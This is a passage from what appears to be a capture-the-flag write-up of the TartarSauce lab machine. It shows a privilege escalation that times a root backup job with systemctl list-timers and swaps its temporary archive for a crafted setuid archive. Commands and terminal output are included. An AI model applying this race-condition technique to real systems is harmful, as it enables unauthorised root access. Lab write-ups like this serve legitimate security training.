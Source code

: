 
### Replace Archive

Use `python3 -m http.server 9000` to create a webserver on my local box, and
then get the archive with `wget`.

Then use `systemctl list-timers` to wait for when the job runs, and the
temporary archive is created. When it is, replace it with my archive.

Use `systemctl list-timers` to see when the archive will appear:

    
    
    onuma@TartarSauce:/var/tmp$ systemctl list-timers
    NEXT                         LEFT     LAST                         PASSED       UNIT                         ACTIVATES
    Sun 2018-10-21 14:05:40 EDT  2s left  Sun 2018-10-21 14:00:40 EDT  4min 57s ago backuperer.timer             backuperer.service
    Sun 2018-10-21 14:06:27 EDT  49s left Sat 2018-10-20 19:31:58 EDT  18h ago      apt-daily.timer              apt-daily.service
    Mon 2018-10-22 06:10:48 EDT  16h left Sun 2018-10-21 06:42:35 EDT  7h ago       apt-daily-upgrade.timer      apt-daily-upgrade.service
    Mon 2018-10-22 11:29:12 EDT  21h left Sun 2018-10-21 11:29:12 EDT  2h 36min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service  
    

See the archive:

    
    
    onuma@TartarSauce:/var/tmp$ ls -la
    total 9172
    drwxrwxrwt  8 root  root     4096 Oct 21 14:05 .
    drwxr-xr-x 14 root  root     4096 Feb  9  2018 ..
    -rw-r--r--  1 onuma onuma 9355264 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
    -rw-r--r--  1 onuma onuma    2715 Oct 21  2018 suid.tar.gz
    drwx------  3 root  root     4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
    drwx------  3 root  root     4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
    drwx------  3 root  root     4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
    drwx------  3 root  root     4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER  
    

Move mine over it:

    
    
    onuma@TartarSauce:/var/tmp$ cp suid.tar.gz .8dc600473f3730872b2c52a44da6d0bd4efb2297
    onuma@TartarSauce:/var/tmp$ ls -la
    total 40
    drwxrwxrwt  8 root  root  4096 Oct 21 14:05 .
    drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
    -rw-r--r--  1 onuma onuma 2715 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
    -rw-r--r--  1 onuma onuma 2715 Oct 21  2018 suid.tar.gz
    drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
    drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
    drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td